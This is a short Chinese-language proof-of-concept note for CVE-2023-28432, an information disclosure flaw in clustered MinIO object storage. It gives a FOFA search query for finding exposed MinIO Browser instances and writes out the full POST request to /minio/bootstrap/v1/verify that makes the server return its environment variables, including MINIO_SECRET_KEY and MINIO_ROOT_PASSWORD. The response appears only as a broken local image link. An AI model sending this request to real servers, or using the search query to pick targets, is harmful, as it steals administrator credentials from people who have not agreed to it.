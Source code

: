 # CVE-2023-28432 MinIO集群模式信息泄露漏洞

## 1.漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

## 2.搜索语法

```plain
fofa：title="MinIO Browser"
```

## 3.漏洞复现

```plain
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Content-Type: application/x-www-form-urlencoded


```

响应包如下：

![image-20240613201719366](D:\py\POC\CVE-2023-28432 MinIO集群模式信息泄露漏洞\image-20240613201719366.png)